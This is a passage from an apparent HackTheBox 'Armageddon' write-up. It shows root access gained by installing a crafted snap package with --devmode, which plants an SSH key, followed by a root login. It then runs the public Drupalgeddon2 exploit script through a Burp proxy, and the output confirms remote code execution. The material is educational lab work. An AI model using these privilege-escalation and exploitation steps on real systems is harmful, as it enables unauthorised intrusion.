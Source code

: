 ```

[brucetherealadmin@armageddon shm]$ sudo snap install --dangerous armageddon_0.1_amd64.snap 
error: snap "armageddon_0.1_amd64.snap" requires devmode or confinement override

```

Googling that leads to [posts](https://askubuntu.com/questions/783945/what-is-devmode-for-snaps) about `--devmode`, which works:

```

[brucetherealadmin@armageddon shm]$ sudo snap install --devmode armageddon_0.1_amd64.snap 
armageddon 0.1 installed

```

### SSH

If that install worked as I hope, my public key is now in `/root/.ssh/authorized_keys`, and I should be able to connect with SSH. It worked:

```

oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.10.233
Last login: Fri Mar 19 07:56:39 2021
[root@armageddon ~]# 

```

And I can get the root flag:

```

[root@armageddon ~]# cat root.txt
a289b09c************************

```

## Beyond Root

To take a look at that Ruby script, I set a new listener in Burp that would listen on port 8888 and forward all traffic to 10.10.10.233 port 80:

![image-20210326161915166](https://0xdfimages.gitlab.io/img/image-20210326161915166.png)

Then I ran the exploit targeting `http://127.0.0.1:8888`:

```

oxdf@parrot$ /opt/Drupalgeddon2/drupalgeddon2.rb http://127.0.0.1:8888
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://127.0.0.1:8888/
--------------------------------------------------------------------------------
[+] Found  : http://127.0.0.1:8888/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.56
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo TRZZJAMZ
[+] Result : TRZZJAMZ
```